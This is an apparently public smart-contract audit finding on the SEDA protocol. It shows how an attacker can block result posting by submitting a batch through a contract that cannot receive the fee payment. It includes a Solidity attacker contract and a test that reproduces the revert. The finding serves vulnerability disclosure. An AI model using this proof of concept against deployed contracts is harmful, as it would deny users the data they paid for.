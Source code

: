 Decent Ceramic Orca

Medium

# batchSender can be a smart contract without the ability to receive native tokens, which would DOS postResult because the fee transfer would fail

### Summary

SedaCoreV1 sends a `batchFee`, if set, to the `batchSender`. The `batchSender` can be an arbitrary contract that does not have a fallback function to receive native tokens. This would cause the call to `postResult` to fail, and the results would not be posted on chain.

### Root Cause

The `batchSender` is retrieved in `postResultAndGetBatchSender` using `verifyResultProof` on the `sedaProver`. 
https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L163
In `verifyResultProof`, you can see that the `batchSender` is simply the address that posted the batch. Since `postBatch` requires no permissions, any contract can do it.
https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L181-L190
Here you can see that the fee is transferred to the `batchSender`.
https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L356-L360
Here you can see that `postResult` is reverted if the native token transfer fails. This can be intentionally triggered by an attacker if they post the batch using a contract that cannot receive native tokens.

### Internal Pre-conditions

1. The request for which the result is must have a batch fee set

### External Pre-conditions

1. The attacker may need to frontrun someone who also wants to call postBatch

### Attack Path

 1. User posts a request with a batch fee greater than 0
 2. The result for the request is inserted into a batch on the SEDA chain
 3. An attacker calls `postBatch` through a contract that cannot receive native tokens
 4. Someone calls `postResult` for the request on SedaCoreV1, which fails because the batch sender cannot receive fees

### Impact

An attacker can prevent results from being posted and thus prevent the protocol that requested the data from receiving it.

### PoC

The file `contracts/mocks/Attacker.sol` needs to be created, and the following code must be inserted:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Secp256k1ProverV1} from "../provers/Secp256k1ProverV1.sol";
import {SedaDataTypes} from "../libraries/SedaDataTypes.sol";

contract Attacker {
    function attack(
        address prover,         
        SedaDataTypes.Batch calldata newBatch,
        bytes[] calldata signatures,
        SedaDataTypes.ValidatorProof[] calldata validatorProofs
    ) external {
        Secp256k1ProverV1(prover).postBatch(
            newBatch,
            signatures,
            validatorProofs
        );
    }
}
```

The following test can be used in `test/prover/Secp256k1ProverV1.test.ts` and executed with `bun run test`:
```javascript
  async function deployProverFixtureNew() {
    const { prover, core, data } = await deployWithSize({ validators: 4 });
    return { prover, wallets: data.wallets, data, core };
  }

  it('audit-test', async () => {
    const { prover, wallets, data, core } = await loadFixture(deployProverFixtureNew);

    const AttackerFactory = await ethers.getContractFactory('Attacker'); //Attacker contract is being deployed
    const attacker = await upgrades.deployProxy(AttackerFactory);
    await attacker.waitForDeployment();

    await core.postRequest( //A request is posted, setting all fees for the request to 1
      data.requests[0],
      BigInt(1e18),
      BigInt(1e18),
      BigInt(1e18),
      {
        value: ethers.parseEther('3')
      }
    );
    const { newBatch, signatures } = await generateAndSignBatch(wallets, data.initialBatch, [0, 1, 2, 3]);

    //The new batch is passed to the attacker contract so that it can post the batch and be registered as the batch poster
    await attacker.attack(await prover.getAddress(), newBatch, signatures, data.validatorProofs);

    //postResult reverts with the error FeeTransferFailed because the fees cannot be sent to the attacker contract
    await core.postResult(
      data.results[0],
      1,
      data.resultProofs[0]
    );
  });
```

### Mitigation

_No response_